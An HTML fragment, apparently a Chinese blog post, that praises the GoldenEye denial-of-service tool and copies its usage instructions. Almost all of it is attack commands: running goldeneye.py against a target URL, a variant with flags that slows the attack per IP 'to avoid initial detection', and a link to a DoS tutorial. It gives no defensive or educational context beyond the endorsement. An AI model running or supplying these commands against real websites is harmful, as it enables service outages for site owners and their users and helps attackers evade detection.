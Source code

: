 <p>
	<span style="color:#666666;font-family:&quot;font-size:14px;white-space:normal;background-color:#ECECEC;">挺好用的工具&nbsp;<img src="https://blog.verytalk.cn/admin/editor/plugins/emoticons/images/20.gif" border="0" alt="" /></span>
</p>
<p>
	<span style="color:#666666;font-family:&quot;font-size:14px;white-space:normal;background-color:#ECECEC;">cd GoldenEye-master/ Run GoldenEye Running GoldenEye is&nbsp;easy. Following is the usage of goldeneye.py &nbsp; Use the following command to run GoldenEye ./goldeneye.py http://www.goldeneyetestsite.com/ You can even slow down the attack per IP to avoid initial detection: ./goldeneye.py http://www.goldeneyetestsite.com/ -w 10 -s 10 -m random</span>
</p>
<br style="color:#666666;font-family:&quot;font-size:14px;white-space:normal;background-color:#ECECEC;" />
<p>
	<span style="color:#666666;font-family:&quot;font-size:14px;white-space:normal;background-color:#ECECEC;">Read More:&nbsp;</span><a href="http://www.onoffme.com/dos-attack-using-goldeneye-in-kali-linux/" style="border:0px;font-family:&quot;font-size:14px;margin:0px;outline:0px;padding:0px;vertical-align:baseline;color:#50C8F0;text-decoration:none;white-space:normal;background-color:#ECECEC;">http://www.onoffme.com/dos-attack-using-goldeneye-in-kali-linux/</a> 
</p>
<p>
	<br />
</p>
<p>
	<br />
</p>
<p>
	<span style="color:#666666;font-family:&quot;font-size:14px;white-space:normal;background-color:#ECECEC;">goldeneye http://www.goldeneyetestsite.com/ -w 10 -s 10 -m random</span> 
</p>
<p>
	<br />
</p>